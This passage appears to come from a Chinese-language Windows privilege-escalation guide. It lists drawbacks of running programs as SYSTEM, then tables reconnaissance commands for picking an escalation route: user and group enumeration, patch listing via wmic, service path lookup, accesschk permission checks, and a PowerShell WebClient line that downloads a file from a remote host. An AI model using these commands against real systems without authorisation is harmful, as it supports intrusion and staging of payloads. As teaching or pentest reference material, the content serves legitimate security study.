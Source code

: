 缺点：

```
1. system权限获取桌面路径、appdata路径时，默认访问的是system相关路径，不是当前桌面路径；
2. 程序不是在主线程中运行（很难理解）
3. 弹出选择路径弹窗时，会报错或者无法选择桌面路径；
4. 无法打开系统默认浏览器、文本编辑器等，因为程序运行权限超过系统登录账户范畴；
```



#### 信息收集命令

以下命令可以对系统进行信息收集，由此来决定提权方式

|                           **命令**                           |                        **描述**                         |
| :----------------------------------------------------------: | :-----------------------------------------------------: |
|                          systeminfo                          |                      打印系统信息                       |
|                            whoami                            |                     获得当前用户名                      |
|                         whoami /priv                         |                      当前账户权限                       |
|                           ipconfig                           |                      网络配置信息                       |
|                     ipconfig /displaydns                     |                       显示DNS缓存                       |
|                         route print                          |                      打印出路由表                       |
|                            arp -a                            |                        打印arp表                        |
|                           hostname                           |                         主机名                          |
|                           net user                           |                        列出用户                         |
|                      net user UserName                       |                     关于用户的信息                      |
|            net use \SMBPATH Pa$$w0rd /u:UserName             |                         连接SMB                         |
|                        net localgroup                        |                       列出所有组                        |
|                     net localgroup GROUP                     |                    关于指定组的信息                     |
|                     net view \127.0.0.1                      |                  会话打开到当前计算机                   |
|                         net session                          |                     开放给其他机器                      |
|                  netsh firewall show config                  |                     显示防火墙配置                      |
|                         DRIVERQUERY                          |                     列出安装的驱动                      |
|                        tasklist /svc                         |                     列出启动的服务                      |
|                          dir /s foo                          |               在目录中搜索指定字符的项目                |
|                       dir /s too==bar                        |                          同上                           |
|                          net start                           |                     列出启动的服务                      |
|                           sc query                           |                      列出所有服务                       |
|                      sc qc ServiceName                       |                   找到指定服务的路径                    |
|                       shutdown /r /t 0                       |                        立即重启                         |
|                        type file.txt                         |                       打印出内容                        |
|                      icacls “C\Example”                      |                        列出权限                         |
|    wmic qfe get Caption,Description,HotFixID,InstalledOn     |                    列出已安装的补丁                     |
| (New-Object System.Net.WebClient).DownloadFile(“https://host/file”,“C:\LocalPath”) |                利用ps远程下载文件到本地                 |
|                 accesschk.exe -qwsu “Group”                  | 修改对象（尝试Everyone，Authenticated Users和/或users） |